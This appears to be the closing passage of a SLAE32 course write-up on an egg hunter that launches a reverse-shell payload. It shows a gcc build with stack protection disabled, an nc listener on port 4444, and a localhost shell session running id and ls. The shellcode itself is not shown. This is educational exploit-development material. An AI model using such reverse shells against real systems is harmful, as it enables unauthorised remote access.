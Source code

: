 ```c
	return 0;
}
```

Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

We test the Egg Hunter and the Reverse Shell by creating a listener on port `4444` with `nc` in one terminal window and in another we execute the executable `shellcode`. Then, back to the first we verify the incoming connection and run the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ nc -lvnp 4444
```

2<sup>nd</sup> window:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ ./shellcode 
Shellcode Length:  93
Egg Hunter Length: 39

```

1<sup>st</sup> window again:

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 48292)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
egg-hunter
egg-hunter.nasm
egg-hunter.o
reverse
shellcode
shellcode.c
exit
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ 
```

## Summary

We have a working Egg Hunter shellcode that calls the Reverse Shell shellcode and we get a connection back on port 4444.

